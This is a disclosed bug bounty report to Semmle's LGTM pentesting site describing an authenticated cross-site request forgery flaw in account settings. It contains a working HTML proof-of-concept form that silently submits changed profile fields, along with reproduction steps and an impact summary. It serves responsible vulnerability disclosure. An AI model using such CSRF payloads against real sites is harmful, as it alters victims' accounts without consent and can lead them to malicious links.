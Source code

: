 # Authenticated Cross-Site-Request-Forgery

## Report Details
- **Report ID**: 505595
- **URL**: https://hackerone.com/reports/505595
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-06T13:14:04.267Z
- **Disclosed**: 2019-03-19T13:13:44.236Z

## Reporter
- **Username**: drspitfire
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semmle

## Vulnerability Information
Summary:
I have read the T&C to be eligible for bounty on this program. As per T&C authenticated CSRF requests are eligible for a bounty. I am not looking for the Bounty, However I want to give you an update on Authenticated CSRF that I have found. 
In the "Account Settings", a user can change his username, Location, Website and Company name. This information can be changed by an adversary using CSRF attack.  Please follow given below steps.


Steps To Reproduce:
Step1: Copy and Paste below code and save it as an HTML file. 
-----------------------------------------------------------------------------------------------------------

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://lgtm-com.pentesting.semmle.net/internal_api/v0.2/savePublicInformation" method="POST">
      <input type="hidden" name="name" value="Wasim&#32;Shaikh" />
      <input type="hidden" name="username" value="spitfirehunt" />
      <input type="hidden" name="location" value="Jeddah" />
      <input type="hidden" name="website" value="https&#58;&#47;&#47;spitfirehunt&#46;blogspot&#46;com" />
      <input type="hidden" name="organization" value="Blogspot" />
      <input type="hidden" name="nonce" value="5c04dc5f1a3327b091ecff05604bca8d22233583d0a632a01b16de290efe38b6a4fd5117fcb1d33534356da3c3242de2c236df52cb8a222c6e772c46fc64c2a2" />
      <input type="hidden" name="apiVersion" value="6526f3837c6050e2cc7ab97e8abf9cd01f4c7002" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
------------------------------------------------------------------------------------------------------------

Step2: Login using your legitimate account @LGTM-  https://lgtm-com.pentesting.semmle.net 

Step3: Open HTML file using same browser where you have an active session for LGTM. 

Step4: Click on "Submit" button and your information in personal profile will be changed.

Kindly let me know if you are able to reproduce the issue or not.

## Impact

Security Impact:

1: Changing the username of a user on his behalf.
2: Adding a malicious website's link to a user's account.
3: User might visit malicious websites considering it is there on his account to check it and thus, end up downloading malicious software on his machine, phishing attacks or much more.

## Attachments
No attachments
